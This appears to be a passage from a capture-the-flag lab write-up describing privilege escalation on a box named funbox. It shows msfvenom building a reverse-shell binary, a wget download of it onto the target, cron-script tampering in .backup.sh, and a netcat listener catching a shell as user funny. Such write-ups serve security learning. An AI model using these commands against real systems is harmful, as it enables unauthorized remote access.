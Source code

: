 So we have the chance to become user `funny`.  
Therefore we generate a simple reverse shell using `msfvenom`.
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.248 LPORT=80 -f elf > abc                                              
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

Then we upload the binary to our target.  
Start web server on attacker machine.
```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Upload to target by using `wget` on the target.
```bash
joe@funbox:/tmp$ wget http://192.168.45.248/abc
--2023-08-22 08:09:58--  http://192.168.45.248/abc
Connecting to 192.168.45.248:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: ‘abc’

abc                                                        100%[========================================================================================================================================>]     194  --.-KB/s    in 0.001s  

2023-08-22 08:09:58 (282 KB/s) - ‘abc’ saved [194/194]

joe@funbox:/tmp$ chmod +x abc
```

We start the reverse shell listener on our attacker machine.
```bash
$ nc -lvp 80    
listening on [any] 80 ...
```

Now we change the content of `.backup.sh` by using an editor on the target like `nano`.  
The content then should look like this.
```bash
joe@funbox:/tmp$ cat /home/funny/.backup.sh 
#!/bin/bash
/tmp/abc
tar -cf /home/funny/html.tar /var/www/html
```

After a minute we get a connection.
```bash
$ nc -lvp 80    
listening on [any] 80 ...
connect to [192.168.45.248] from funbox.fritz.box [192.168.203.77] 33228
id
uid=1000(funny) gid=1000(funny) groups=1000(funny),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
